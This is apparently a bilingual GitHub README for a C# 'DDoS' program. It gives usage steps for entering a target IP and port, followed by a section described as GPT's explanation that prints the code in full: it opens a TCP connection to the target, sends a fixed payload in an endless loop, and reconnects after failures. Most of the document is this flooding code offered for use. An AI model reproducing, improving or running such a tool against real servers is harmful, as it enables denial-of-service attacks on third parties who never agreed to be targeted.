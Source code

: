 # DDOS-by-CS(A DDoS programing by CSharp)

# 简体中文
## 如何使用?
输入服务器IP(域名)  
输入服务器端口  
然后<kbd>回车</kbd>

# English
## How to use?
Input IP or domain name of server.  
Input the port of server.  
Then press <kbd>Enter</kbd>.
<hr>

# GPT的解析：
# 代码功能解析  
这段代码是一个简单的 C# 程序，用于与服务器建立 TCP 连接，并发送数据包到服务器。  
## 导入命名空间：  
```CSharp
using System;
using System.Net;
using System.Net.Sockets;
```
这些命名空间包含了程序中需要用到的类和方法。  
## 声明 Program 类：  
```CSharp
class Program {
    // 程序的入口方法
    public static void Main() {
        // ...
    }
}
```
Main 方法是程序的入口点。  
## 获取服务器 IP 地址和端口号：  
```CSharp
string serverIP;
int serverPort;
Console.Write("服务器    |  Server: ");
serverIP = Console.ReadLine();
while (true) {
    Console.Write("端口      |  Port  : ");
    if (int.TryParse(Console.ReadLine(), out serverPort)) {
        break;
    } else {
        Console.ForegroundColor = ConsoleColor.Red;
        Console.WriteLine("端口不正确|  Invalid input");
        Console.ResetColor();
    }
}
```
这段代码会提示用户输入服务器的 IP 地址和端口号，并进行验证。  
## 连接服务器：  
```CSharp
TcpClient client = new TcpClient();
try {
    client.Connect(serverIP, serverPort);
    Console.WriteLine("服务器连接成功  |  Connect success.");
} catch (Exception e) {
    Console.ForegroundColor = ConsoleColor.Red;
    Console.WriteLine("服务器连接失败  |  Unable to connect to server.");
    Console.ResetColor();
}
```
这段代码会创建一个 TcpClient 实例，并使用 Connect 方法连接到指定的服务器。如果连接成功，会输出连接成功的消息，否则会输出连接失败的消息。  
## 获取网络流：  
```CSharp
NetworkStream stream = client.GetStream();
```
这段代码会从 TcpClient 实例获取网络流，用于后续的数据传输。  
## 发送数据包：  
```CSharp
byte[] buffer = System.Text.Encoding.ASCII.GetBytes("DataDataDataDataDataData");
int count = 0;
while (true) {
    count++;
    try {
        stream.Write(buffer, 0, buffer.Length);
        Console.Write("发了第" + count + "次包");
        Console.ForegroundColor = ConsoleColor.Green;
        Console.WriteLine("成功");
        Console.ResetColor();
    } catch (Exception e) {
        Console.ForegroundColor = ConsoleColor.Red;
        Console.WriteLine("在发送第" + count + "时发送问题" + e.Message);
        Console.ResetColor();
        goto reclient;
    }
}
```
这段代码会循环发送数据包到服务器。每次发送都会将计数器加一，并输出发送成功的消息。如果发送过程中出现异常，会输出发送失败的消息，并通过 goto 语句跳转到 reclient 标签处重新连接服务器。  
总体而言，这段代码的作用是建立 TCP 连接到指定的服务器，并循环发送数据包到服务器。在发送过程中，会输出相应的提示信息。
